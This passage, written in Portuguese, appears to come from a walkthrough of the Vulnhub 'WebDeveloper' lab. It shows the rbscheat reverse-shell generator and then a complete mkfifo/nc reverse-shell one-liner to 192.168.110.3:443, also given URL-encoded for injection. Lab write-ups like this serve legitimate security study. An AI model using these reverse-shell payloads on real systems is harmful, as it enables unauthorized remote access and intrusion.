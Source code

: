 
* **RBSCheat**

O rbscheat e um programa criado para deixar mais performatica a busca por um comando para nos retornar o shell. Basta utilizar o comando com o parametro do IP e a porta que ira receber o shell e o nome com qual programa ele executara para nos retornar o shell. Ele pode ser encontrado e instalado de acordo com as instrucoes que estao no seu repositorio na pagina do seu autor <https://github.com/marciosouza20/rbscheat>.

```bash
rbscheat -i 192.168.110.3:443 -l nc 
```

![](/assets/img/Vulnhub/WebDeveloper/rbscheat.png)



* **BurpSuite - Decoder**

Vamos utilizar o burp para codificar o nosso payload

```bash
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 192.168.110.3 443 >/tmp/f
```

```
%72%6d%20%2f%74%6d%70%2f%66%3b%6d%6b%66%69%66%6f%20%2f%74%6d%70%2f%66%3b%63%61%74%20%2f%74%6d%70%2f%66%7c%2f%62%69%6e%2f%73%68%20%2d%69%20%32%3e%26%31%7c%6e%63%20%31%39%32%2e%31%36%38%2e%31%31%30%2e%33%20%34%34%33%20%3e%2f%74%6d%70%2f%66
```

![](/assets/img/Vulnhub/WebDeveloper/shellReverso-payload.png)

